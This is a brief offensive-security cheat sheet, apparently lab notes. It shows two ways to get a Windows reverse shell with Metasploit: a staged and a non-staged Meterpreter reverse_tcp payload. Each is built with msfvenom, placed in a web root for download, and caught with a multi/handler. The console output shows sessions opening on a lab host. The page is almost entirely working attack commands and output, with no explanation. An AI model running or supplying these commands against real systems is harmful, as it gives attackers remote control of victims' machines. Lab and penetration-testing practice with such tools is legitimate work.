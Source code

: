 Staged

$ sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.75 LPORT=444 -f exe -o /var/www/html/staged.exe
$ sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.49.75
msf6 > set lport 444
msf6 > run
[*] Started reverse TCP handler on 192.168.49.75:444 
[*] Sending stage (200262 bytes) to 192.168.75.11
[*] Meterpreter session 1 opened (192.168.49.75:444 -> 192.168.75.11:50094 ) at 2021-11-21 16:06:32 -0500
meterpreter >

Non-Staged

$ sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.75 LPORT=444 -f exe -o /var/www/html/nonstaged.exe
$ sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_tcp
msf6 > set lhost 192.168.49.75
msf6 > set lport 444
msf6 > run
[*] Started reverse TCP handler on 192.168.49.75:444 
[*] Meterpreter session 2 opened (192.168.49.75:444 -> 192.168.75.11:50087 ) at 2021-11-21 16:08:43 -0500
meterpreter >